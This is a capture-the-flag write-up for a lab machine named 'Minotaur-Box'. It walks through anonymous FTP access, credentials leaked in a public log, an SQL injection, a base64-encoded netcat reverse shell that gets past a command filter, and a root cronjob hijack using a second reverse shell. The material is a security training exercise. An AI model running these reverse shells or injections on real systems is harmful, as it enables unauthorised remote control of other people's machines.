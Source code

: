 # Writeup Minotaur-Box

## Nmap scan

```
PORT     STATE SERVICE  VERSION
21/tcp   open  ftp      ProFTPD
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_drwxr-xr-x   3 nobody   nogroup      4096 Jun 15 14:57 pub
80/tcp   open  http     Apache httpd 2.4.48 ((Unix) OpenSSL/1.1.1k PHP/8.0.7 mod_perl/2.0.11 Perl/v5.32.1)
|_http-server-header: Apache/2.4.48 (Unix) OpenSSL/1.1.1k PHP/8.0.7 mod_perl/2.0.11 Perl/v5.32.1
443/tcp  open  ssl/http Apache httpd 2.4.48 ((Unix) OpenSSL/1.1.1k PHP/8.0.7 mod_perl/2.0.11 Perl/v5.32.1)
|_http-server-header: Apache/2.4.48 (Unix) OpenSSL/1.1.1k PHP/8.0.7 mod_perl/2.0.11 Perl/v5.32.1
| ssl-cert: Subject: commonName=localhost/organizationName=Apache Friends/stateOrProvinceName=Berlin/countryName=DE
| Not valid before: 2004-10-01T09:10:30
|_Not valid after:  2010-09-30T09:10:30
|_ssl-date: TLS randomness does not represent time
| tls-alpn: 
|_  http/1.1
```

## FTP Server
you see you can login into ftp anonymously

you see these files -> download them 

```
drwxr-xr-x   2 root     root         4096 Jun 15 19:49 .secret
-rw-r--r--   1 root     root          141 Jun 15 14:57 message.txt
```

if you cd to .secret you get the flag and a note with a hint for the future

```
└─# cat keep_in_mind.txt 
Not to forget, he forgets a lot of stuff, that's why he likes to keep things on a timer ... literally
-- Minotaur
```

## Web Server
lets focus on the web server now:
doing a quick dir-scan shows that the /logs dir is exposed to the public
you can find a post request log at http://[Machine_IP]/logs/post/post_log.log
where you can find a valid password and user name to login with
email=Daedalus&password=g2e55kh4ck5r

you get presented with an api interface where you can query for user data:
lets try quering for our user Daedalus
you will get back the name and hashed password of him
if you look at inspect element theres a hint hidden it tells you something about permissions ....
``` <!-- Minotaur!!! Told you not to keep permissions in the same shelf as all the others especially if the permission is equal to admin --> ```

if you look at the structure of the paramenters you see at the naming pattern (namePeoplenameCreature) there may be a parameter called permissionPeople
so lets try out an sql-injection with this information
``` Daedalus' OR permissionPeople='admin ```

you get this result gives you a new user: 
```5    M!n0taur    1765db9457f496a39859209ee81fbda4 ```
you can either crack this hash (rockyou list), or you can use a website like crackstation
now login with the new userinformation you got
user: M!n0taur password: aminotauro
and a link to an pannel called "secret echo pannel"
there you can echo some your input out witch internally executes the echo command but you somhow have to bypass the filters and gain RCE
when you find out `` is permitted and you execute commands with it (you have to execute them seperatly at ';' because this char is filterd )
the best way to bypass the filter is just with a base64 encoded reverse shell payload
```rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc YOUR_IP 4243 >/tmp/f ```
to this

```cm0gL3RtcC9mO21rZmlmbyAvdG1wL2Y7Y2F0IC90bXAvZnwvYmluL3NoIC1pIDI+JjF8bmMgWU9VUl9JUCA0MjQzID4vdG1wL2Y=```

since the equals sign is also filterd you will have to remove it witch leaves you with this payload
```echo "cm0gL3RtcC9mO21rZmlmbyAvdG1wL2Y7Y2F0IC90bXAvZnwvYmluL3NoIC1pIDI+JjF8bmMgWU9VUl9JUCA0MjQzID4vdG1wL2Y" | base64 -d | bash```
then you get access to to machine and find the user flag located in /home/user/

## Machine 
you see theres cronjob running on a file owend by root(location: /timer/timer.sh) but wrteable by everyone
add your reverse shell (use a different port this time)
```rm /tmp/f;mknod /tmp/f p;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.0.1 4243 >/tmp/f```
the location of the root flag is in the root folder



